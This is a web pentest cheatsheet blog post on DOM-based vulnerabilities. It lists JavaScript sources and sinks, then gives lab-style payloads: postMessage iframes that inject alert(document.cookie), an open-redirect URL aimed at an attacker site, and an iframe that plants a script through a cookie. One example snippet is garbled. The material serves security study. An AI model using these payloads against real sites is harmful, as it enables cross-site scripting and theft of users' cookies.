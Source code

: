 ```yaml
---
title: "DOM-based vulnerabilities"
subtitle: ""
date: 2020-03-04T15:58:26+08:00
lastmod: 2020-03-04T15:58:26+08:00
draft: false
author: "Hato0"
description: "DOM-based vulnerabilities cheatsheet"

tags: ["web", "penetest", "dom-based"]
categories: ["Penetest - Web"]

hiddenFromHomePage: true
hiddenFromSearch: false
twemoji: false
lightgallery: false
ruby: false
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false
toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
share:
  enable: true
comment:
  enable: true
---
```

# DOM-based vulnerabilities

DOM-based vulnerabilities are based on javascript values controlled by attackers *called source* and use it in dangerous functions *called sink* (values can be cookies or whatever and functions can be eval like ones so by modifying the cookie you've got RCE).

Sources are very often :
- document.URL  
- document.documentURI  
- document.URLUnencoded  
- document.baseURI  
- location  
- document.cookie  
- document.referrer  
- window.name  
- history.pushState  
- history.replaceState  
- localStorage  
- sessionStorage  
- IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)  
- Database

Sink related to vulnerabilites are (thanks to portswigger):

DOM-based vulnerability | Example sink
:----: | :----:
DOM XSS  | `document.write()`
Open redirection | `window.location`
Cookie manipulation | `document.cookie`
JavaScript injection | `eval()`
Document-domain manipulation | `document.domain`
WebSocket-URL poisoning | `WebSocket()`
Link manipulation | `someElement.src`
Web-message manipulation | `postMessage()`
Ajax request-header manipulation | `setRequestHeader()`
Local file-path manipulation | `FileReader.readAsText()`
Client-side SQL injection | `ExecuteSql()`
HTML5-storage manipulation | `sessionStorage.setItem()`
Client-side XPath injection | `document.evaluate()`
Client-side JSON injection | `JSON.parse()`
DOM-data manipulation | `someElement.setAttribute()`
Denial of service | `RegExp()`


There is also DOM clobbering, same goal, different approach, your goal here is to inject HTML and then perform DOM basis

## Some examples



- Web messages
	
	Here you are in the situation where your page contained an `addEventListener` and wait for an input
	
	You can put the following message: 
	
	{{< highlight html "lineNos=false" >}}
	<iframe src="WEBSITE" onload="this.contentWindow.postMessage('<img src=1 onerror=alert(document.cookie)>','\*')">
	{{< /highlight >}}
	
	OR
	
	{{< highlight html "lineNos=false" >}}
	<iframe src="WEBSITE" onload="this.contentWindow.postMessage('javascript:alert(document.cookie)//http:','\*')">
	{{< /highlight >}}
	
	OR 
	
	{{< highlight html "lineNos=false" >}}<iframe src=https://your-lab-id.web-security-academy.net/ onload='this.contentWindow.postMessage("{\\"type\\":\\"load-channel\\",\\"url\\":\\"javascript:alert(document.cookie)\\"}","\*")'>
	{{< /highlight >}}
	
	Base your payload on the method use to upload a message.
	
	The iframe will post the message and dump it on the page, you will be able to get the cookie that way
	

- DOM-based open redirection

	The website have a similar output than the following one :
	
	{{< highlight html "lineNos=false" >}}
	<a href='#' onclick='returnURL' = /url=https?:\\/\\/.+)/.exec(location); if(returnUrl)location.href = returnUrl\[1\];else location.href = "/"'>Back to Blog</a>
	{{< /highlight >}}
	 
	 So you can use it by sending for example the following url :
	 
	 `https:/WEBSITE/post?postId=4&url=YOURWEBSITE`
	 
	 
- DOM-based cookie manipulation

	Here is an example for the following scenario :
	1. You are on a website that store last page seen as a cookie
	
	2. Your first action is to inject an iframe where you match an existing page and add some payload after it.
	
	3. When the iframe is load by the victime browser, it will open the src temporarily and set the cookie to the payload

	4. Then the iframe will execute the `onload` function and redirect the victime to an other page of your choice. 

	5. By loading the page the cookie will be stored and execute so is your payload, the victime is not able to see it in anyway (if your victime is Mr/Mrs Michu)
	
	{{< highlight html "lineNos=false" >}}
	<iframe src="WEBSITE/sell?productId=1&'><script>alert(document.cookie)</script>" onload="if(!window.x)this.src='WEBSITE';window.x=1;">
	{{< /highlight >}}
	
## How to prevent it 
Not much to do. Just handle untrusted data carefully and perform all required checks.